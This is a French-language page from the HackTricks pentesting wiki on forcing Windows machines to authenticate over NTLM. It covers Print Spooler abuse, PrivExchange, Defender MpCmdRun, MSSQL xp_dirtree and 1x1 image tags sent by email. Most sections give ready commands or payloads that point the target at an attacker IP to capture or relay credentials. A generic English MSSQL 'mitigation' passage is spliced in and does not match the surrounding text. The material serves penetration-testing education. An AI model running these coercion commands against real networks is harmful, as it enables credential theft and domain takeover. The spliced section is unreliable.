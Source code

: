 # Forcer l'authentification privilégiée NTLM

<details>

<summary><a href="https://cloud.hacktricks.xyz/pentesting-cloud/pentesting-cloud-methodology"><strong>☁️ HackTricks Cloud ☁️</strong></a> -<a href="https://twitter.com/hacktricks_live"><strong>🐦 Twitter 🐦</strong></a> - <a href="https://www.twitch.tv/hacktricks_live/schedule"><strong>🎙️ Twitch 🎙️</strong></a> - <a href="https://www.youtube.com/@hacktricks_LIVE"><strong>🎥 Youtube 🎥</strong></a></summary>

* Travaillez-vous dans une **entreprise de cybersécurité** ? Voulez-vous voir votre **entreprise annoncée dans HackTricks** ? ou voulez-vous avoir accès à la **dernière version de PEASS ou télécharger HackTricks en PDF** ? Consultez les [**PLANS D'ABONNEMENT**](https://github.com/sponsors/carlospolop) !
* Découvrez [**The PEASS Family**](https://opensea.io/collection/the-peass-family), notre collection exclusive de [**NFTs**](https://opensea.io/collection/the-peass-family)
* Obtenez le [**swag officiel PEASS & HackTricks**](https://peass.creator-spring.com)
* **Rejoignez le** [**💬**](https://emojipedia.org/speech-balloon/) [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe telegram**](https://t.me/peass) ou **suivez** moi sur **Twitter** [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/hacktricks_live)**.**
* **Partagez vos astuces de piratage en soumettant des PR au [repo hacktricks](https://github.com/carlospolop/hacktricks) et au [repo hacktricks-cloud](https://github.com/carlospolop/hacktricks-cloud)**.

</details>

## SharpSystemTriggers

[**SharpSystemTriggers**](https://github.com/cube0x0/SharpSystemTriggers) est une **collection** de **déclencheurs d'authentification à distance** codés en C# en utilisant le compilateur MIDL pour éviter les dépendances tierces.

## Abus du service Spooler

Si le service _**Print Spooler**_ est **activé**, vous pouvez utiliser des informations d'identification AD déjà connues pour **demander** au serveur d'impression du contrôleur de domaine une **mise à jour** sur les nouveaux travaux d'impression et lui dire simplement de **envoyer la notification à un système**.\
Notez que lorsque l'imprimante envoie la notification à des systèmes arbitraires, elle doit s'**authentifier contre** ce **système**. Par conséquent, un attaquant peut faire en sorte que le service _**Print Spooler**_ s'authentifie contre un système arbitraire, et le service **utilisera le compte de l'ordinateur** dans cette authentification.

### Trouver des serveurs Windows sur le domaine

En utilisant PowerShell, obtenez une liste de boîtes Windows. Les serveurs sont généralement prioritaires, donc concentrons-nous là-dessus :
```bash
Get-ADComputer -Filter {(OperatingSystem -like "*windows*server*") -and (OperatingSystem -notlike "2016") -and (Enabled -eq "True")} -Properties * | select Name | ft -HideTableHeaders > servers.txt
```
### Recherche des services Spooler en écoute

En utilisant une version légèrement modifiée de SpoolerScanner de @mysmartlogin (Vincent Le Toux) [SpoolerScanner](https://github.com/NotMedic/NetNTLMtoSilverTicket), vérifiez si le service Spooler est en écoute :
```bash
. .\Get-SpoolStatus.ps1
ForEach ($server in Get-Content servers.txt) {Get-SpoolStatus $server}
```
Vous pouvez également utiliser rpcdump.py sur Linux et rechercher le protocole MS-RPRN.
```bash
rpcdump.py DOMAIN/USER:PASSWORD@SERVER.DOMAIN.COM | grep MS-RPRN
```
### Demander au service de s'authentifier contre un hôte arbitraire

Vous pouvez compiler [**SpoolSample à partir d'ici**](https://github.com/NotMedic/NetNTLMtoSilverTicket)**.**
```bash
SpoolSample.exe <TARGET> <RESPONDERIP>
```
ou utilisez [**dementor.py** de 3xocyte](https://github.com/NotMedic/NetNTLMtoSilverTicket) ou [**printerbug.py**](https://github.com/dirkjanm/krbrelayx/blob/master/printerbug.py) si vous êtes sur Linux.
```bash
python dementor.py -d domain -u username -p password <RESPONDERIP> <TARGET>
printerbug.py 'domain/username:password'@<Printer IP> <RESPONDERIP>
```
### Combinaison avec la délégation sans contrainte

Si un attaquant a déjà compromis un ordinateur avec la [délégation sans contrainte](unconstrained-delegation.md), l'attaquant pourrait **faire authentifier l'imprimante contre cet ordinateur**. En raison de la délégation sans contrainte, le **TGT** du **compte d'ordinateur de l'imprimante** sera **enregistré dans** la **mémoire** de l'ordinateur avec la délégation sans contrainte. Comme l'attaquant a déjà compromis cet hôte, il sera en mesure de **récupérer ce ticket** et de l'exploiter ([Pass the Ticket](pass-the-ticket.md)).

## Authentification forcée RCP

{% embed url="https://github.com/p0dalirius/Coercer" %}

## PrivExchange

L'attaque `PrivExchange` résulte d'une faille dans la fonctionnalité `PushSubscription` du serveur Exchange, qui permet à **n'importe quel utilisateur de domaine ayant une boîte aux lettres de forcer le serveur Exchange à s'authentifier** sur n'importe quel hôte fourni par le client via HTTP.

Le service Exchange s'exécute en tant que **SYSTEM** et est **sur-privilegié** par défaut (c'est-à-dire qu'il dispose de privilèges WriteDacl sur le domaine avant la mise à jour cumulative 2019). Cette faille peut être exploitée pour **relayer vers LDAP et déverser la base de données NTDS du domaine**. Si nous ne pouvons pas relayer vers LDAP, cela peut être exploité pour relayer et s'authentifier sur **d'autres hôtes** dans le domaine. Cette attaque vous mènera directement à l'administrateur de domaine avec n'importe quel compte utilisateur de domaine authentifié.

****[**Cette technique a été copiée d'ici.**](https://academy.hackthebox.com/module/143/section/1276)****

## À l'intérieur de Windows

Si vous êtes déjà à l'intérieur de la machine Windows, vous pouvez forcer Windows à se connecter à un serveur en utilisant des comptes privilégiés avec :

### Defender MpCmdRun
```bash
C:\ProgramData\Microsoft\Windows Defender\platform\4.18.2010.7-0\MpCmdRun.exe -Scan -ScanType 3 -File \\<YOUR IP>\file.txt
```
### MSSQL

### Description
Microsoft SQL Server (MSSQL) is a relational database management system (RDBMS) developed by Microsoft. It is widely used in enterprise environments to store and manage data.

### Attack Scenario
Attackers can abuse MSSQL to gain access to sensitive data stored in the database. This can be achieved through various techniques such as SQL injection, brute-force attacks, and exploiting vulnerabilities in the MSSQL server.

### Mitigation
To mitigate the risk of MSSQL attacks, it is recommended to follow these best practices:

- Keep MSSQL server up-to-date with the latest security patches.
- Use strong and complex passwords for MSSQL accounts.
- Implement network segmentation to isolate MSSQL server from other systems.
- Use encryption to protect sensitive data stored in the MSSQL database.
- Monitor MSSQL server logs for any suspicious activity.
```sql
EXEC xp_dirtree '\\10.10.17.231\pwn', 1, 1
```
Ou utilisez cette autre technique: [https://github.com/p0dalirius/MSSQL-Analysis-Coerce](https://github.com/p0dalirius/MSSQL-Analysis-Coerce)

## Injection HTML

### Via email

Si vous connaissez l'**adresse e-mail** de l'utilisateur qui se connecte à une machine que vous souhaitez compromettre, vous pouvez simplement lui envoyer un **e-mail avec une image de 1x1** telle que
```html
<img src="\\10.10.17.231\test.ico" height="1" width="1" />
```
### MitM

Si vous pouvez effectuer une attaque MitM sur un ordinateur et injecter du HTML dans une page qu'il visualisera, vous pouvez essayer d'injecter une image comme celle-ci dans la page :
```html
<img src="\\10.10.17.231\test.ico" height="1" width="1" />
```
## Craquage de NTLMv1

Si vous pouvez capturer des défis NTLMv1, lisez ici comment les craquer.\
_Rappelez-vous que pour craquer NTLMv1, vous devez définir le défi Responder sur "1122334455667788"_
